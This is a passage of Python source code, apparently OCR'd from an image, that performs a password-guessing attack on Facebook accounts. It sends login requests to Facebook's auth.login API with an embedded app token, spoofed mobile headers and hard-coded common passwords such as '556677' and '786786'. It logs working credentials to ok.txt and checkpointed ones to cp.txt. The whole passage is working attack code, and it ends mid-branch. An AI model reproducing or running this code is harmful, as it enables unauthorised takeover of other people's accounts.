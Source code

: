 					params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass2, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
					headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
					data = requests.get(api, params=params, headers=headers_)
					if "access_token" in data.text and "EAAA" in data.text:
						print(" \033[1;32m[Ibrahim-OK] "+uid+" | "+pass2+"\033[0;97m")
						ok = open("ok.txt", "a")
						ok.write(uid+"|"+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in data.json()['error_msg']:
							print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("cp.txt", "a")
							cp.write(uid+"|"+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)
						else:
							pass3 = "556677"
							api = 'https://b-api.facebook.com/method/auth.login'
							params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass3, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
							headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
							data = requests.get(api, params=params, headers=headers_)
							if "access_token" in data.text and "EAAA" in data.text:
								print(" \033[1;32m[Ibrahim-OK] "+uid+" | "+pass3+"\033[0;97m")
								ok = open("ok.txt", "a")
								ok.write(uid+"|"+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in data.json()['error_msg']:
									print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("cp.txt", "a")
									cp.write(uid+"|"+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									pass4 = "786786"
									api = 'https://b-api.facebook.com/method/auth.login'
									params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass4, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
									headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
									data = requests.get(api, params=params, headers=headers_)
									if "access_token" in data.text and "EAAA" in data.text:
										print(" \033[1;32m[Ibrahim-OK] "+uid+" | "+pass4+"\033[0;97m")
										ok = open("ok.txt", "a")
										ok.write(uid+"|"+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in data.json()['error_msg']: